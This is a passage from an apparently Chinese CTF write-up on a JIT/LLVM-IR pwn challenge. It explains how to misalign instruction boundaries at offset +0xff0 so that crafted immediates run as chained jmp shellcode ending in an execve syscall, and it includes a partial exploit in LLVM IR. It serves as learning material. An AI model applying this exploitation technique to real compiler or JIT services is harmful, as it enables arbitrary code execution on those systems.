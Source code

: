 漏洞点在于边界，handle对参数处理的范围只到+0xff0，这里存在一个shellcode的偏差

比如这样一段shellcode

![image-20220711162227980](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711162227980.png)

如果我们+2(0x7ffff7ffb018)此时我们输入的参数就会成为一段汇编

![image-20220711162448640](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711162448640.png)

![image-20220711162609266](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711162609266.png)

也就是说我们能在参数位置布置shellcode，比如jmp 7("\xeb\x05")

这里怎样才能制造这种偏差呢？就利用它超出边界的部分会被保留，边界内会被覆盖新的shellcode来实现切割shellcode

第一步：我们在将最后一组movabs的起始点放在+0xfee处这样+0xff0就是我们布置的shellcode(9090ebb2==nopnopjmp)

![image-20220711163406672](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711163406672.png)

![image-20220711163439111](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711163439111.png)

第二步：再起一个函数块，这次我们读入内容填充至+0xff2，这样就能正常执行到jmp指令。同样jmp以后我们还要利用这样+2的方式在jmp目标地址伪造好shellcode，由于我们一组读入的参数有限(6个字节)就需要多次jmp来执行syscall(59)

![image-20220711164004273](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711164004273.png)

shellcode如下

![image-7](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-7.png)

这里还有个点就是短jmp(E8)的机器码，直接用网站生成即可`jmp -76`

jmp 0x7ffff7ffbfa6 是用的ebb2 == jmp 0xffffffffffffffb4(负跳转) 即-76

![image-20220711165641087](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711165641087.png)

exp做了一些批注，利用时删除批注

```c
define dso_local i64 @foo(i64 %0) local_unnamed_addr #0 {
  %2 = add nsw i64 %0, 3001782416 
  %3 = add nsw i64 %2, 20000000000000
  %4 = add nsw i64 %3, 20000000000000
  %5 = add nsw i64 %4, 20000000000000
  %6 = add nsw i64 %5, 20000000000000
  %7 = add nsw i64 %6, 20000000000000
  %8 = add nsw i64 %7, 20000000000000
  %9 = add nsw i64 %8, 20000000000000
  %10 = add nsw i64 %9, 20000000000000
  %11 = add nsw i64 %10, 20000000000000
  %12 = add nsw i64 %11, 20000000000000
  %13 = add nsw i64 %12, 20000000000000
  %14 = add nsw i64 %13, 20000000000000
  %15 = add nsw i64 %14, 20000000000000
  %16 = add nsw i64 %15, 20000000000000
  %17 = add nsw i64 %16, 20000000000000
  %18 = add nsw i64 %17, 20000000000000
  %19 = add nsw i64 %18, 20000000000000
  %20 = add nsw i64 %19, 20000000000000
  %21 = add nsw i64 %20, 20000000000000
  %22 = add nsw i64 %21, 20000000000000
  %23 = add nsw i64 %22, 20000000000000
  %24 = add nsw i64 %23, 20000000000000
  %25 = add nsw i64 %24, 20000000000000
  %26 = add nsw i64 %25, 20000000000000
  %27 = add nsw i64 %26, 20000000000000
```